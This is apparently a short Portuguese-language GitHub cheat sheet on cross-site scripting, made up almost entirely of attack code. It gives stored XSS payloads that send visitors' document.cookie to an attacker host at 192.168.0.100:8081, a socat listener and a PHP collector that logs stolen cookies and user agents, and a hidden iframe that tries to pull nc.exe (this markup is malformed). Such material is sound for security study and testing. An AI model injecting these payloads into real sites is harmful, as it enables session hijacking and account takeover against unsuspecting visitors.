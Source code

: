 # XSS

## XSS Reflected

```html
<script>alert('Teste XSS')</script>
```

## XSS Stored

Possui um impacto maior pois o script fica salvo na página e toda vez que essa página é acessada o script é executado.

```html
<script>alert(document.cookie)</script>
```

```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```

```html
<script>new Image().src="http://192.168.0.100:8081/";</script>
```  

Use o socat para receber as conexões:

```bash
socat TCP-LISTEN:8081,reuseaddr,fork -
```

### Coletando cookies

Coletor de cookie:

```php
\\código no servidor
<?php
    $cookie=$_GET['cookie'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $file=fopen('cookie.txt','a');
    fwrite($file,"USER AGENT:$useragent || COOKIE:$cookie \n");
    fclose($file);
?>
```

*Necessário ter um arquivo cookie.txt criado.*  

Script para ser executado no alvo:

```html
<script>new Image().src="http://192.168.0.100:8081/coletor.php?cookie="+document.cookie;</script>
```

### Download de arquivo

```html
<iframe>src="http://192.168.0.100:8081/nc.exe" height="0" width="0"</iframe>
```

